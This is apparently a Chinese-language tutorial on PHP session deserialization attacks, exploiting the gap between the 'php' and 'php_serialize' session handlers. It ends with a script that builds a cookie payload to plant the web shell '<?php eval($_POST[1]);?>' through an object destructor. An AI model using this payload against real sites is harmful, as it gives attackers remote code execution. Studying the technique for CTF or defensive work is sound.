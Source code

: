 前置知识：
     当我们写 $_SESSION['meng'] = 'meng'; 的时候，服务器会在它的一个目录下创建一个文件，文件的内容是：a:1:{s:4:"meng";s:4:"meng";}这就看出来了，服务器在存储我们的session内容的时候，是将session进行了序列化存储在文件当中，然后当我们需要用到session里面的内容的时候，服务器从存储序列化后session的文件中取出相关内容，然后进行反序列化。


```
ini_set('session.serialize_handler', 'php') 时的Session文件内容例：user|s:3:"xxx";

ini_set('session.serialize_handler', 'php_serialize') 时的Session文件内容例：a:1:{s:4:"user";s:3:"xxx";}
```

^
## **session反序列化利用**
php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
```php
meng|s:4:"meng";
```

php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值 
```php
a:1:{s:4:"meng";s:4:"meng";}
```
如果一个php程序，这两种模式都有使用，那么就是利用两者序列化时和反序列化时的差异，实现反序列化恶意的串。


^
一般情况下默认是php_serialize模式存储session。
如果在某处正好使用的第一种php模式下，|后的数据被作为session的内容，当session开启被触发时，会对这个内容反序列化。

如何这个session的内容可控，我们就可以传入恶意的序列化串。
先是php_serialize模式存储session序列化，然后php模式反序列化。
如:
```
设置键为test的session内容：
$_SESSION['test']='|O:1:"M":1:{s:1:"a";s:4:"hihi";}';
php_serialize模式序列化的，此时seesion文件内容：
a:1:{s:4:"test";s:32:"|O:1:"M":1:{s:1:"a";s:4:"hihi";}";}

此时设置php模式，并触发反序列化。
ini_set('session.serialize_handler','php');
session_start();
则反序列化的数据为|后面的
O:1:"M":1:{s:1:"a";s:4:"hihi";}
```

^
可控session场景：
```
$_SESSION['limit']=base64_decode($_COOKIE['limit']);
```
设置session内容时，前面加个|即可。
```
<?php
    class User{
        public $username;
        public $password;
        function __construct($username,$password){
            $this->username = $username;
            $this->password = $password;
        }
        function __destruct(){
            file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
        }
    }
    $a = new User('1.php','<?php eval($_POST[1]);phpinfo();?>');
    echo base64_encode('|'.serialize($a));
?>
```